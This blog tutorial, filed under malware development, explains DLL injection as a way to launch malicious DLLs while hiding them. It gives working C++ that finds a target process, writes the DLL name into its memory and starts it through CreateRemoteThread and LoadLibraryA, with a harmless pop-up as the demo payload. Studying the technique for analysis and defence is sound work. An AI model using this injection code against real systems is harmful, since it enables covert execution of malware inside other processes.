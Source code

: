 ```yaml
---
title: Malware Launching - DLL Injection
categories:
- Malware Development
description: DLL Injection to execute malicious DLL files
---
```


# Malware Launching - DLL Injection

## 1. Context


Ever since I started malware development, I've always been interested in the concept of malware launching.


The idea is that malware launcher is an a type of malware that can download/unpack and execute a malware. The goal of the launcher is to set things up so the malicious activity of the actual malware is concealed from users.


In this blog post, I'll attempt to develop and recreate a launcher that I recently analyze that uses one of the simplest process injection technique, called DLL Injection.


## 2. Concept


The concept of DLL injection is just like how it sounds, injecting code from a DLL into a running process. 


Let's say that we somehow have got a malicious DLL file on our machine with the name **Malware.dll**. Maybe it's been downloaded at the same time with the launcher, or the launcher can download it. The point is, it exists on our machine.


DLL files, although are PE files, can't be execute on their own. Usually, they export their functions so other executables can use them. However, DLL files do have a ***main*** function!


According to [MSDN](https://docs.microsoft.com/en-us/windows/win32/dlls/dllmain), when the system starts or terminates a process or thread, it calls the entry-point function (DLL main) for each loaded DLL using the first thread of the process. Basically, if a process loads a DLL, then DLL main will be called. Most of the time, normal DLL files do not use this function because it is rarely related to their functionality.


However, DLL main is also called when a process/thread calls [LoadLibrary](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)!


Therefore, the technique of DLL injection requires that we
  - First, get the address of **LoadLibrary** from **Kernel32.dll**
  - Second, push the string name of the malicious DLL with the malicious main function into virtual memory of the process using [VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) and [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory).
  - Third, create a new thread of that process with the entry point of the address of **LoadLibrary** and the command line argument of the string name of the malicious DLL using [CreatRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread).


When this thread executes, the entry point will cause the thread to call **LoadLibrary** with the parameter of the DLL file, and the DLL main function will be executed!


This injection will completely hide the DLL functionality from Task Manager or Process Explorer because it will be ran as the parent process that we created.


## 3. Prepare DLL file


Using Visual Studio, we can create a DLL project to write our own DLL. Here is my simple DLL main function.


![alt text](/uploads/DLL.PNG)


Basically, when ***ul_reason_for_call*** equals to **DLL_PROCESS_ATTACH**, we know the library is loaded when the process just starts. 


If this is the case, then we create a simple pop-up with [MessageBoxA](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-messageboxa);


We will use this DLL to inject into a process of our choice later, and we can check if the injection is successful by checking for this pop-up.


## 4. DLL Injection Code


For the injection code, first we need 2 things:
  - **processName**: the name of the process we want to inject(**svchost.exe, python.exe, or whatever**)
  - **dllFileName**: the name of the dll file with the malicious main function


#### I. Find process ID


First, we need to find the process ID of the process with **processName**.


We can do this by calling [CreateToolhelp32Snapshot](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot) to take a snapshot of all of the currently running processes.


Next, we can use [Process32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32first) and [Process32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32next) to iterate through this process list from the snapshot and check if any of the process has the same name as **processName**.


If we find it, we record its process ID.


``` cpp
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);   // Snapshot of processes

	if (hSnapshot == INVALID_HANDLE_VALUE) {
		printError("CreateToolhelp32Snapshot");
		return;
	}

	LPPROCESSENTRY32 processEntry = (LPPROCESSENTRY32)(&PROCESSENTRY32());

	processEntry->dwSize = sizeof(PROCESSENTRY32);
	if (Process32First(hSnapshot, processEntry) == 0) {
		printError("Process32First");
		CloseHandle(hSnapshot);
		return;
	}

	DWORD dwProcessID = 0;
	while (Process32Next(hSnapshot, processEntry) != 0) {
		wstring temp(processEntry->szExeFile);
		string name(temp.begin(), temp.end());
		if (!strcmp(name.c_str(), processName)) {                   // if process name matches, save process ID
			dwProcessID = processEntry->th32ProcessID;
			printf("FIND process ID of 0x%x for %s!!\nStarting injection\n", dwProcessID, name.c_str());
			break;
		}
	}
```


#### II. Open process and write memory


Next, we need to get a handle of the process using [OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess).


From this, we can alloc space in the process's virtual memory space and write the DLL name there. 


The reason we need to do this is that the process has its own virtual memory, and the only way for it to use our **dllFileName** is by writing the file name into its own memory.


We can accomplish this using [VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) and [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory).


``` cpp
    HANDLE hVictimProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessID);
	if (hVictimProcess == INVALID_HANDLE_VALUE) {
		printError("OpenProcess");
		CloseHandle(hSnapshot);
		return;
	}

	
	LPVOID nameBuffer = VirtualAllocEx(hVictimProcess, NULL, strlen(dllFileName), MEM_COMMIT, PAGE_READWRITE);
	if (!nameBuffer) {
		printError("VirtualAllocEx");
		CloseHandle(hVictimProcess);
		CloseHandle(hSnapshot);
		return;
	}

    // Write dll name into virtual memory of the process
	if (!WriteProcessMemory(hVictimProcess, nameBuffer, dllFileName, strlen(dllFileName), NULL)) {
		printError("WriteProcessMemory");
		CloseHandle(hVictimProcess);
		CloseHandle(hSnapshot);
		return;
	}
```


#### III. Get the address of LoadLibraryA


Next, we need to set the entry point of our to-be-created thread to **LoadLibraryA** so the first thing it executes is this function.


To do this, we need to get a handle to **Kernel32.dll** through [GetModuleHandle](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea).


Then, using this handle, we can retrieve the address of **LoadLibraryA** through [GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress).


``` cpp
    HMODULE hKernel32 = GetModuleHandle(L"Kernel32.dll");
	if (!hKernel32) {
		printError("GetModuleHandle");
		CloseHandle(hVictimProcess);
		CloseHandle(hSnapshot);
		return;
	}
	FARPROC fpLoadLibrary = GetProcAddress(hKernel32, "LoadLibraryA");
	DWORD dwInjectedProcessID = 0;

	if (!fpLoadLibrary) {
		printError("GetProcAddress");
		CloseHandle(hVictimProcess);
		CloseHandle(hSnapshot);
		return;
	}
```


#### IV. Injection!!


The only thing left to do is calling [CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread).

**CreateRemoteThread** takes in these parameters:
  - **hProcess**: pass in *hVictimProcess* from **OpenProcess**
  - **lpThreadAttributes**: pass in NULL because we don't care about this
  - **dwStackSize**: pass in 0 to use the default stack size
  - **lpStartAddress**: pass in *fpLoadLibrary* so the thread's entry point will be at **LoadLibrary**
  - **lpParameter**: pass in *nameBuffer* so the thread will call **LoadLibrary(nameBuffer)**
  - **dwCreationFlags**: pass in 0 to have the thread runs immediately after execution
  - **lpThreadId**: pass in a pointer to a new thread ID, this is not necessary, but we can do it if we want.


``` cpp
	HANDLE hInjectedThread = CreateRemoteThread(hVictimProcess, NULL, 0, (LPTHREAD_START_ROUTINE)fpLoadLibrary, nameBuffer, 0, &dwInjectedProcessID);
	if (!hInjectedThread) {
		printError("CreateRemoteThread");
		CloseHandle(hVictimProcess);
		CloseHandle(hSnapshot);
		return;
	}
```

And here should be the result. I'm creating a **python.exe** process running an infinite loop, and I will attempt to inject my own DLL into this process and have the pop-up shows up.

![alt text](/uploads/dll_injection_result.gif)


## 5. Wrapping up


That's all there is to DLL injection!

It's a pretty simple yet useful concept to launch malicious DLLs. Feel free to check my Github [repo](https://github.com/cdong1012/DLLInjection) for this project here!